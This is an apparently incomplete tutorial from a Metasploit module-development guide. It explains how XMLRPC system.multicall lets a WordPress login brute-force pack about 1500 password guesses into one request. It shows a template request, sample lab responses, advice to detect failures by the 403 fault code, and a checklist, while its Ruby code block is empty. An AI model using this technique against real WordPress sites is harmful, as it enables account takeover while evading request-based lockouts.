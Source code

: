 # Auxiliary module


## Scanner 

Scanner basic modules


### Wordpress XMLRPC Massive Bruteforce
Wordpress CMS framework support XMLRPC service to interact with almost all functions in the framework. Some functions require authentication. The main issues lies in the you can authenticate many times within the same request. Wordpress accepts about 1788 lines of XML request which allows us to send tremendous number of login tries in a single request. So how awesome is this? Let me explain. 

Imagine that you have to bruteforce one user with 6000 passwords? How many requests you have to send in the normal bruteforce technique? It's 6000 requests. Using our module will need to 4 requests only of you use the default CHUNKSIZE which is 1500 password per request!!!. NO MULTI-THREADING even you use multi-threading in the traditional burteforce technique you'll send 6000 request a few of its are parallel.
```
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>
 
 
  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  
  ...Snippet...

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #N"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  
  
</params>
</methodCall>
```
So from above you can understand how the XML request will be build. Now How the reply will be?
To simplify this we'll test a single user once with wrong password another with correct password to understand the response behavior 

**wrong password response**
```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member>
                  <name>faultCode</name>
                  <value>
                    <int>403</int>
                  </value>
                </member>
                <member>
                  <name>faultString</name>
                  <value>
                    <string>Incorrect username or password.</string>
                  </value>
                </member>
              </struct>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse>
```
We noticed the following 
- <name>faultCode</name>
- <int>403</int>
- <string>Incorrect username or password.</string>

Usually we rely one the string response '*Incorrect username or password.*', but what if the wordpress language wasn't English? so the best thing is the integer response which is `403`


**correct password response**
```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <array>
                <data>
                  <value>
                    <array>
                      <data>
                        <value>
                          <struct>
                            <member>
                              <name>isAdmin</name>
                              <value>
                                <boolean>1</boolean>
                              </value>
                            </member>
                            <member>
                              <name>url</name>
                              <value>
                                <string>http://172.17.0.3/</string>
                              </value>
                            </member>
                            <member>
                              <name>blogid</name>
                              <value>
                                <string>1</string>
                              </value>
                            </member>
                            <member>
                              <name>blogName</name>
                              <value>
                                <string>Docker wordpress</string>
                              </value>
                            </member>
                            <member>
                              <name>xmlrpc</name>
                              <value>
                                <string>http://172.17.0.3/xmlrpc.php</string>
                              </value>
                            </member>
                          </struct>
                        </value>
                      </data>
                    </array>
                  </value>
                </data>
              </array>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse>
```
We noticed that long reply with the result of called method `wp.getUsersBlogs`

Awesome, right?

The tricky part is just begun! Since we will be sending thousands of passwords in one request and the reply will be rally huge XML files, how we'll find the position of the correct credentials? The answer is, by using the powerful ruby iteration methods, particularly `each_with_index` method.

Enough talking, show me the code!

#### What do we want?
- [ ] Create Auxiliary module
- [ ] Deal with Web Application 
- [ ] Deal with Wordpress 
- [ ] Describe The module
- [ ] Let people know we created this module
- [ ] Add references about the vulnerability that we exploit
- [ ] Options to set the target URI, port, user, pass list.
- [ ] Read username and password lists as arrays 
- [ ] Build/Generate XML file takes a user and iterate around the passwords
- [ ] Check if target is running wordpress 
- [ ] Check if target enabling RPC
- [ ] Parse XML request and response 
- [ ] Find the exact correct credentials 
- [ ] Check if we got blocked
- [ ] Parsing the result and find which password is correct 

#### Steps

- [x] Create Auxiliary module
- [x] Deal with Web Application 
- [x] Deal with Wordpress 
- [x] Describe The module
- [x] Let people know we created this module
- [x] Add references about the vulnerability that we exploit
- [x] Options to set the target URI, port, user, pass list.
- [x] Read username and password lists as arrays 

```ruby

```


#### Wrapping up
The final module 

### DoS module 

### Server

